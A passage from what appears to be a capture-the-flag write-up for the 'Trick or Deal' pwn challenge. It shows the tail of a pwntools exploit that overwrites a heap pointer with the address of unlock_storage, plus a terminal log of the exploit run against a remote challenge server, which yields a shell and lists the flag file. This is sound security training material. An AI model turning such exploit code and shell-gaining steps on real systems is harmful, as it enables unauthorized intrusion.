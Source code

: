 ```Python3
payload = b'V' * 0x48 + p64(unlock_storage)
malloc(0x50, payload)

io.sendlineafter(b'[*] What do you want to do? ', b'1')

io.sendline(b'id')
io.interactive()
```

Let's attack the remote server.

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;">$ ./xpl.py REMOTE 64.227.46.56:32650
[<font color="#66D9EF"><b>*</b></font>] &apos;/home/hackthebox/challenge/pwn/Trick_or_Deal/trick_or_deal&apos;
    Arch:     amd64-64-little
    RELRO:    <font color="#A6E22E">Full RELRO</font>
    Stack:    <font color="#A6E22E">Canary found</font>
    NX:       <font color="#A6E22E">NX enabled</font>
    PIE:      <font color="#A6E22E">PIE enabled</font>
    RUNPATH:  <font color="#F92672">b&apos;./glibc/&apos;</font>
[<font color="#A6E22E"><b>+</b></font>] Opening connection to 64.227.46.56 on port 32650: Done
[<font color="#66D9EF"><b>*</b></font>] printStorage leak: 0x559901e00be6
[<font color="#66D9EF"><b>*</b></font>] unlock_storage: 0x559901e00eff
[<font color="#66D9EF"><b>*</b></font>] Switching to interactive mode

<blink><font color="#A6E22E">[*] Bruteforcing Storage Access Code . . .</font></blink>

<font color="#A6E22E"><b>* Storage Door Opened *</b></font>
uid=999(ctf) gid=999(ctf) groups=999(ctf)
<font color="#F92672"><b>$</b></font> ls
flag.txt  glibc  ld-2.31.so  libc-2.31.so  trick_or_deal
</code></pre></div>
{{< /rawhtml >}}



